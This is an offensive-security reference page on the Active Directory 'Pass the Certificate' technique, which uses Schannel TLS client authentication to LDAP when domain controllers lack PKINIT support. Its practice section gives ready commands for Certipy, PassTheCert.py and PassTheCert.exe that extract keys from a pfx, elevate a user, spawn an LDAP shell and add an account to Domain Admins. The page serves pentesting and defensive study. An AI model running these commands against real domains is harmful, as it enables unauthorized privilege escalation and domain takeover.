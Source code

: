 ```yaml
---
authors: ShutdownRepo, ThePirateWhoSmellsOfSunflowers
category: ad
---
```


# Pass the Certificate

> [!NOTE]
> This technique extends the notion of [Pass the Certificate](../kerberos/pass-the-certificate.md), thus dubbed by myself, [@_nwodtuhs](https://twitter.com/_nwodtuhs/), in a Twitter thread about AD CS and PKINIT [here](https://twitter.com/_nwodtuhs/status/1451510341041594377). Even if both techniques share the same name and the same concept, the authentication method is different.

## Theory

Sometimes, Domain Controllers do not support [PKINIT](../kerberos/pass-the-certificate.md). This can be because their certificates do not have the `Smart Card Logon` EKU. Most of the time, domain controllers return `KDC_ERR_PADATA_TYPE_NOSUPP` error when the EKU is missing. Fortunately, several protocols — including LDAP — support Schannel, thus authentication through TLS. As the term "schannel authentication" is derived from the [Schannel SSP (Security Service Provider)](https://learn.microsoft.com/en-us/windows-server/security/tls/tls-ssl-schannel-ssp-overview) which is the Microsoft SSL/TLS implementation in Windows, it is important to note that schannel authentication is a SSL/TLS client authentication.

> [!TIP]
> * Schannel authentication relies on TLS so it is, by design, not subject to channel binding, as the authentication is borne by TLS itself.
> * Schannel is not subject to LDAP signing either as the `bind` is performed after a StartTLS command when used on the LDAP TCP port.

## Practice

::: tabs

=== UNIX-like

Tools like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (python version) and [Certipy](https://github.com/ly4k/Certipy) can be used to authenticate with the certificate via Schannel against LDAP.

```bash
# If you use Certipy to retrieve certificates, you can extract key and cert from the pfx by using:
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key

# elevate a user (it assumes that the domain account for which the certificate was issued, holds privileges to elevate user)
passthecert.py -action modify_user -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1" -target user_sam -elevate

# spawn a LDAP shell
passthecert.py -action ldap-shell -crt user.crt -key user.key -domain domain.local -dc-ip "10.0.0.1"
certipy auth -pfx -dc-ip "10.0.0.1" -ldap-shell
```


=== Windows

Pass the cert technique can be done with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (C# version).

```bash
# Add simple_user to Domain Admins (it assumes that the domain account for which the certificate was issued, holds privileges to add user to this group)
.\PassTheCert.exe --server fqdn.domain.local --cert-path Z:\cert.pfx --add-account-to-group --target "CN=Domain Admins,CN=Users,DC=domain,DC=local" --account "CN=simple_user,CN=Users,DC=domain,DC=local"
```

:::


## Resources

[https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)

[Certified Pre-Owned (pdf)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)

[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

[https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d)